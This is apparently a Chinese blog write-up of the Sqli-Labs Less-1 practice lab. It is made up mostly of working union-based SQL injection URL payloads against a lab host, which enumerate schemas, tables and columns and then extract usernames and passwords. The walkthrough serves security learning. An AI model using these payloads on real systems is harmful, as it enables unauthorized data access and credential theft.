


#Sqli-Labs–实验1
##一些基本信息：
Show databases;===查看所有数据库；
Use security;===进入security数据库；
Desc users;===查看users表的基本信息；
http://172.27.163.209/Less-1/?id=1%27%20order%20by%204--+
回显：Unknown column ‘4’ in ‘order clause’
http://172.27.163.209/Less-1/?id=1’ order by 3–+
回显：正常
对比数据库信息：

注：union查询，当条件为假，查询到的数据就会置顶。
http://172.27.163.209/Less-1/?id=-2’union select 1,2,3–+
因为没有显示1，从2开始入手：
http://172.27.163.209/Less-1/?id=-2’union select 1,database(),3–+
查看当前连接数据库：
http://172.27.163.209/Less-1/?id=-2’union select 1,user(),3–+
查看当前连接用户：
http://172.27.163.209/Less-1/?id=-2’union select 1,user(),database()–+
http://172.27.163.209/Less-1/?id=-1'union select 1,group_concat(schema_name),3 from information_schema.schemata–+
这里显示出5个数据库：由上面确认本页面连接的是：security现在将对security进行爆表。
http://172.27.163.209/Less-1/?id=-2'union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=’security’–+

http://172.27.163.209/Less-1/?id=-2'union select 1,group_concat(column_name),3 from information_schema.columns where table_name=’users’–+
http://172.27.163.209/Less-1/?id=-2'union select 1,username,password from users where id=1–+
得到需要的信息。
###注释：
查询存在的数据库：
http://172.27.163.209/Less-1/?id=-2'union select 1,group_concat(schema_name),3 from information_schema.schemata–+
查询security数据库的表：
http://172.27.163.209/Less-1/?id=-2'union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=’security’–+
因为查询security数据库知道里面有users表，对users表里面包含的列进行查询：
http://172.27.163.209/Less-1/?id=-2'union select 1,group_concat(column_name),3 from information_schema.columns where table_name=’uagents’–+
查询users表里id=2的username和password列的内容
http://172.27.163.209/Less-1/?id=-2'union select 1,username,password from users where id=2–+
Sqli-Labs--实验1
Author: Zibqs
Permalink: http://www.daican.club/2019/12/27/Sqli-Labs--%E5%AE%9E%E9%AA%8C1/
License: Copyright (c) 2019 CC-BY-NC-4.0 LICENSE
Slogan: Do you believe in DESTINY?